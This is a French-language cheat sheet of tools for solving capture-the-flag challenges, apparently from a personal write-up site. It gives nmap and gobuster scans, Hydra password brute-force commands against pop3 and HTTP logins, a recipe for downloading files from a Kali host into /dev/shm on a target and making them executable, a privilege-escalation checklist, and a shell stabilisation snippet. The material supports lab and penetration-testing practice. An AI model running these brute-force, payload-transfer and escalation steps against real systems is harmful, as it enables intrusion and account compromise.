 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u $IP -t50
```

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt,.zip" -u http://$IP:8080 -t50 -U <user> -P <password>
```



## Hydra

* Hydra pour pop3

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

ou

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

* Hydra pour http-get

```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt $IP -s <port> http-get
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Consolidation d'un Shell

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo; fg
export TERM=xterm  
(stty cols 132 rows 34)
```
